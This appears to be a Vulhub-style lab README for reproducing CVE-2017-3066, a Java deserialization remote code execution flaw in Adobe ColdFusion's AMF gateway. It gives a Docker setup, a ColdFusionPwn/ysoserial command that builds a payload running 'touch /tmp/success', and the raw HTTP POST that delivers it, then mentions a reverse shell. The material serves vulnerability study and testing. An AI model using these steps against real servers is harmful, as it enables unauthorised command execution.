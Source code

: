 # Adobe ColdFusion AMF Deserialization Remote Command Execution (CVE-2017-3066)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion 2016 Update 3 and earlier, ColdFusion 11 update 11 and earlier, ColdFusion 10 Update 22 and earlier have a Java deserialization vulnerability in the Apache BlazeDS library. Successful exploitation could lead to arbitrary code execution.

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## Vulnerable environment

Start a Adobe ColdFusion 11 update 3:

```
docker compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

Generate a POC via [ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn) in the `poc.ser`:

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

Send the request to `http://your-ip:8500/flex2gateway/amf`, which contains the `application/x-amf` Content-Type and POC within the body:

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

`/tmp/success` is successfully created:

![](2.png)

Get a reverse shell:

![](3.png)
